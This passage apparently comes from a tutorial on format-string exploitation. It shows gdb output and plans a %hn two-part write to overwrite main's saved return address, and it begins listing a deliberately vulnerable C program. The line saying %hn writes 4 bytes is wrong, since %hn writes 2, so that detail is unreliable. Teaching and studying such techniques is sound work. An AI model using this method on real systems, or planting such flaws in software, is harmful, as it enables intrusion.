Oh, we hit a `Segmentation fault` why is that? The current instruction is:

    (gdb) x/i $eip
    => 0xb7e677ec <_IO_vfprintf_internal+17756>:    mov    %ecx,(%eax)

Which moves the current value of `ecx` into the memory pointed by the value of `eax`.

    (gdb) x/x $eax
    0x2:    Cannot access memory at address 0x2

But here our current pointer's value is `2` (as expected), so trying to write into the memory address `2` is definitely not going to work. What can we override instead? What about `main`'s return address?

Firstly, let's find it:

    (gdb) r 2 'a'
    Breakpoint 1, 0x08048462 in main ()
    (gdb) info frame
    Stack level 0, frame at 0xbffffc10:
     eip = 0x8048462 in main; saved eip = 0xb7e39a63
     Arglist at 0xbffffbf8, args:
     Locals at 0xbffffbf8, Previous frame's sp is 0xbffffc10
     Saved registers:
      ebx at 0xbffffbf4, ebp at 0xbffffbf8, eip at 0xbffffc0c

The address we need to override is `0xbffffc0c`, to do that we'll construct two numbers that will override both parts of the address, like so:


    Payload    XXXX....YYYY....
    Address    bfff    fc0c

The space between `XXXX` and `YYYY` will be used to change the number of currently written char to compute the next address's part.

The process will be something like:

    1. Print `bfff` chars
    2. Point to `0xbffffc0c`
    3. `%hn` (the `h` here means that we're only writing 4 bytes)
    4. Print `fc0c` - `bfff` chars
    5. Point to `0xbffffc0c`
    6. `%hn`

Of course we need to make sure that our number of printed char is exact, to do that we can use this neat feature of the format strings:

    printf("%10d", n);

This will always display 10 chars, and fill the empty with spaces. So we can adjust our values quite precisely here.

Let's go back to the real program to exploit:

    #include <stdio.h>
    #include <string.h>

    int main(int argc, char **argv) {
            int  pad = 0xbabe;
            char buf[1024];
            strncpy(buf, argv[1], sizeof(buf) - 1);
